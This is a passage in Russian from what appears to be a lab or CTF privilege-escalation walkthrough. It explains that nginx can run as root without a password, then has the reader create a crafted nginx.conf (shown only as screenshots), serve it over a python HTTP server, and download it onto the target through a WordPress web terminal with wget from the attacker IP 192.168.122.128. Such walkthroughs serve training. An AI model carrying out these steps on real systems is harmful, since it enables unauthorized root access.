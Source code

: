 Теперь нам известно, что есть возможность запускать nginx от root без пароля. Далее необходимо создать файл nginx.conf и привести его к следующему виду:

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.022.png)

Сохраняем файл и переходим к следующему действию. Теперь нам нужно запустить веб-сервер python. В нашем случае будет использоваться стандартный порт 8000:

python3 -m http.server

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.023.png)

Теперь снова открываем WPTerm и качаем созданный ранее конфигурационный файл nginx в директорию /tmp с помощью wget с python-сервера:

cd /tmp

wget 192.168.122.128:8000/nginx.conf

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.024.png)
